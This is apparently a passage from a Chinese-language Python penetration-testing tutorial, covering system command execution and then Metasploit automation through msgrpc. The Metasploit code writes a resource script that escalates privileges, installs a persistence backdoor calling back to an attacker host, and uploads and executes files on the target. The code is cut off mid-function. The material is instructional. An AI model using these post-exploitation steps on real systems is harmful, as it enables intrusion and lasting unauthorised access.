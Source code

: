 # <a name='13'>[0x9 - 命令自动化](#13)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)

通过Python执行系统命令，常用的有:

- os.system
- subprocess.Popen

```python
>>> import os
>>> os.system('uname -a')
0
>>> import subprocess
>>> com_str = 'uname -a'
>>> command = subprocess.Popen([com_str], stdout=subprocess.PIPE, shell=True)
>>> (output, error) = command.communicate()
>>> print output
Darwin  15.2.0 Darwin Kernel Version 15.2.0
```

区别就是后者可以将输出结果保存起来。

# <a name='14'>[0xA - Metasploit自动化](#14)</a>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:dart:[回到目录](#toc)

由Spiderlabs开发的`pymsf`模块可以让Python对Metasploit的`msgrpc`进行交互操作。

先启动`msgrpc`:

```
$ load msgrpc Pass=<password>
```

```python
import os, msfrpc, optparse, sys, subprocess
from time import sleep

# Function to create the MSF .rc files
def builder(RHOST, LHOST, LPORT):
     post = open('/tmp/smbpost.rc', 'w')
     bat = open('/tmp/ms08067_install.bat', 'w')

     postcomms = """getsystem
run persistence -S -U -X -i 10 -p 80 -r """+LHOST+"""
cd c:\\
upload /tmp/ms08067_patch.exe c:\\
upload /tmp/ms08067_install.bat c:\\
execute -f ms08067_install.bat
"""
```